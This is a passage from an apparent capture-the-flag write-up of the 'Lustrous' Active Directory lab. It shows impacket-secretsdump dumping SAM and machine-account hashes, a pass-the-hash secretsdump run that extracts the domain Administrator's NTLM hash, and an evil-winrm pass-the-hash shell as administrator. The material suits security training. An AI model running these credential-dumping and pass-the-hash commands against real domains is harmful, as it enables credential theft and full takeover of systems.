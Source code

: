     [*] Target system bootKey: 0x9619c4c8e8d0c1e1314ca899f5573926
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    ......
    $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:[...snip...]

The NTLM hash for the LUSDC$ has the username identifier $MACHINE.ACC. Although these names are different, this is the same user. Now that we have credentials to the machine account, we can use impacket-secretsdump once more to dump the Administrator user’s NTLM hash.

     impacket-secretsdump lustrous.vl/'LUSDC$'@lusdc.lustrous.vl -hashes aad3b435b51404eeaad3b435b51404ee:[...snip...] -just-dc-user Administrator

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::

ANND BOOOOOMMMMM!!!!!!!!!!!!!!!!!!!!!

    ➜  Lustrous evil-winrm -i 10.10.238.85 -u 'administrator' -H 'b8d9c7<redacted>'
                                        
    Evil-WinRM shell v3.5
                                        
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                         
                                        
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                           
                                        
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    lustrous\administrator